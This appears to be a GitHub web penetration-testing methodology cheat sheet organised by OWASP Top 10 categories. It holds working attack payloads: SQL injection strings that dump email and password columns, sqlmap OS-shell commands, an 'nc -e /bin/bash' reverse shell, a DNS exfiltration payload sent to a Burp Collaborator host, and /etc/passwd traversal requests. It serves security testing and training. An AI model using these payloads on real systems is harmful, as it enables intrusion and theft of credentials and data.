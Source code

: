 
# Methodology // Exploitation Cheatsheet

#

-----------------------------------------------------------------------------


<details>
  <summary>Methodology</summary>
  <br>
    
   # Enumeration
    
   ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
          
   ## Scanning 
  
  - Have a BURP audit and crawler going against the site
 
  - Nikto scan 
  
        nikto -update 
  
        nikto -dbcheck
        
        nikto -h <url> 
        
          -p port          
          -ssl  force ssl on port
          -nossl disable use of ssl
          -id <username>:<password>
  
  - Have gobuster running
  
           
        gobuster dir -u <URL> -w <wordlist>

         -c <cookie> specify cookie

         -e <extensions>

         -P string
                 Password for Basic Auth (dir mode only)
         -U string
                 Username for Basic Auth (dir mode only)
  
  
  - [Header scanning](https://securityheaders.com/)

  - [Visual site mapper](http://www.visualsitemapper.com/)
  
  ## If the site requires OSINT
  
   ### Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](https://github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Walking through the service
  
  - Walk through the site manually and understand it's use
    
  - Note user input sections, URL parameters, etc. Anything interesting
 
  ## Testing
  
  [OWASP Top 10](https://owasp.org/www-project-top-ten/)

  [OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section
  
  
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>Extracting info from scripts</summary>
  <br>

**Gathering all scripts from a site after a full walk through and scan has been performed with burp running**

  - In the target tab right click the url -> Engagement tools -> Find scripts
  
  - Click export. Click save to file.
  
  Run this against the following: 
  
  - [Web script info extractor](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Toolbox/extract.py)
  
        wget https://raw.githubusercontent.com/Kahvi-0/Tools-and-Concepts/master/Toolbox/extract.py && chmod -x extract.py
        
        ./extract.py <file>

</details>

<details>
  <summary>HTTP version syntax</summary>
  <br>
  
  **HTTP/1.0** 
   
      GET <resource> HTTP/1.0
      
  **HTTP/1.1** 
   
      GET <resource> HTTP/1.0
      Host: <domain>.<tld>
  
</details>


<details>
  <summary>Exploiting Misconfigured HTTP Verbs</summary>
  <br>
  
  **DELETE** 
   
        DELETE  <resource> HTTP/1.0
        
  **PUT**
  
        PUT /<filename for upload> HTTP/1.0 
        Content-type: text/html
        Content-length: <size of upload. Burp will auto count>
        
        
        <script>
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>Injection</summary>
  <br>
<details>
  
  <summary>SQLi</summary>
  <br>
  
  [SQL Syntax](https://www.w3schools.com/sql/sql_intro.asp) 
  
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSERT
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   **Test vectors**
   
     - GET parameters
    
        Note on comments for GET requests: not just two dashes and a space, also add a third dash. Because most of the browsers automatically remove trailing spaces in the URL so, if you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment i.e. -- -
     
     - POST parameters
     - HTTP Headers
       - UA
       - Cookies
       - Accept 
       - Etc
       
   **Test input**
   
     •String terminators: 'and "
     •SQL commands: SELECT, UNION, and others
     •SQLcomments:#or--
     • Closing off '))-- for URL parameters. Then try to move to a UNION SELECT
     
      **Exploit**
         
  **Boolean based SQLi**
  
   Trying blind SQL to figure out the contents of a field
  
       ' or substr(user(), 2, 1)= 'a
       
  **Union based**
  
   For if output is directly displayed on the output page. To exploit a SQL injection, you first need to know how many fields the vulnerable query selects. Which is done by trial and error. 
   
    ' UNION SELECT null; --
    ' UNION SELECT null,null; --
    
   Example: 
     
    ')) UNION SELECT 1,2,3,4,5,6,7,<payload> --
     

  Each null represents a field. Usually an SQL error page will represnt that we have the wrong number of fields. An SQL "false" (try to determine this once an SQLi has been discovered, i.e paramter image=<sql>, true=image loads, false=broken image) condition will represent that we have guessed the correct total of fields (do one extra just in case). 
  
  If you want to exploit this manually, the request needs to line up with the number of fields that are found to exist. 
  
  For example if I am injecting a URL parameter and found that there are 8 fields, the SQLi would look similar to this: 
    
         URL?query=')) UNION SELECT 1,2,3,4,5,6,7,8 --
         
   If I wanted to get the email and password field using this SQLi it would look like this:
   
         URL?query=')) UNION SELECT 1,2,3,4,5,6,email,password from Users--
         
   See how the email and password file replace 7 and 8 then asks from the Users table.

  
   Other payloads:
   
     ' UNION SELECT <SQL command>; --
     
     user() gets user running SQL
     
 **SQLMap**
 
   [Cheatsheet 1](https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d)
   
   Identifying SQL vulnerabilities 
   
    sqlmap -u "<url><resource>?id=1"
   
   
   sqlmap with GET request
   
     sqlmap -u "<url><resource>?id=1" -p id
     
      --cookie="<cookie>"
     
   sqlmap with POST request
   
     use Burp to save the injectable request to a text file
     
     sqlmap -r POSTrequest.txt -p <injectable parameter>
     
   Get tables
     
     sqlmap -u <url><resource>?id=1 -p id --tables
     
   Get contents
   
    sqlmap -u <url><resource>?id=1 -D awd -T accounts --dump
    
   Get OS shell
   
    --os-shell   
    
   this can sometimes be unstable and is a good idea to use this to initicate a reverse [shell](https://github.com/Kahvi-0/Cheat-Sheets/tree/master/Shell%20code)

   SQL query example:
   
        <verb> <* or column> FROM <Table name> WHERE <Term / Condition> 
</details>

<details>
  <summary>Command injection</summary>
  <br>
Command Injection occurs when server-side code (like PHP) in a web application makes a system call on the hosting machine.  It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.  Sometimes this won't always end in something malicious, like a whoami or just reading of files.  That isn't too bad.  But the thing about command injection is it opens up many options for the attacker.  The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as.  A simple ;nc -e /bin/bash is all that's needed and they own your server. some variants of netcat don't support the -e option.  

Once the attacker has a foothold on the web server, they can start the usual enumeration of your systems and start looking for ways to pivot around.  Now that we know what command injection is, we'll start going into the different types and how to test for them.
</details>

#

</details>

<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Weak creds. Site allowing username as password.
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?
        
        

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
</details>


<details>
  <summary>XXE</summary>
  <br>
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XSS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>


<details>
  <summary>LFI</summary>
  <br>
  
  Cheatsheets: 
  
   [PayloadAllTheThings](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks)
   
</details>


<details>
  <summary></summary>
  <br>
</details>
